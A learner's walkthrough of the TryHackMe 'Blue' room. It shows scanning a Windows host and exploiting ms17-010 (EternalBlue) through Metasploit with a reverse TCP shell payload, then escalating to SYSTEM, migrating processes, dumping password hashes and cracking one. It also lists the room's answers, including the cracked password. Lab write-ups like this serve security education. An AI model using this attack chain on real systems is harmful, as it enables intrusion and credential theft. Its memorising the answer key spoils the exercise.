

Hi! It is time to look at the Blue CTF on TryHackMe. I am making these walkthroughs to keep myself motivated to learn cyber security, and ensure that I remember the knowledge gained by THMs rooms.Join me on learning cyber security.

Room URL: <ins>https://tryhackme.com/room/blue</ins>

# Task 1 (Recon)

Let’s get started with some recon!

## **Questions**

Scan the machine.

`nmap --script Vuln [ip_address] -Pn -A -F`

> How many ports are open with a port number under 1000?

`3`

> What is this machine vulnerable to?

`ms17-010`

# Task 2(Gain Access)

> Start Metasploit

Run Metasploit using msfconsole command and search for the exploit for the target machine & run it.

> Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

we search for ms17-010 using search command to get results

`exploit/windows/smb/ms17_010_eternalblue`

> Show options and set the one required value. What is the name of this value? (All caps for submission)

we will use show options command and see the required section to know the value

`RHOSTS`

> Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:
> 
> `set payload windows/x64/shell/reverse_tcp`
> 
> With that done, run the exploit!

Set the payload and exploit to gain access to target machine

> Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

# Task 3(Escalate)

We have to escalate our privilege to gain higher priority

> If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

`post/multi/manage/shell_to_meterpreter`

> Select this (use MODULE_PATH). Show options, what option are we required to change?

`SESSION`

> Set the required option, you may need to list all of the sessions to find your target here.
> 
> Run! If this doesn't work, try completing the exploit from the previous task once more.
> 
> Once the meterpreter shell conversion completes, select that session for use.
> 
> Verify that we have escalated to NT AUTHORITY\\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.
> 
> List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\\SYSTEM and write down the process id (far left column).

> Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.

# Task 4(Cracking)

> Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

`jon`

After escalating our privilege, we have access to hashdump command and use the command to get the hashdump values of all the users to find the passwords.

> Copy this password hash to a file and research how to crack it. What is the cracked password?

We came to that about john the ripper is used for cracking password

`alqfna22`

# Task 5(Find flags!)

> Flag1? This flag can be found at the system root.

> Flag2? This flag can be found at the location where passwords are stored within Windows.

> flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.

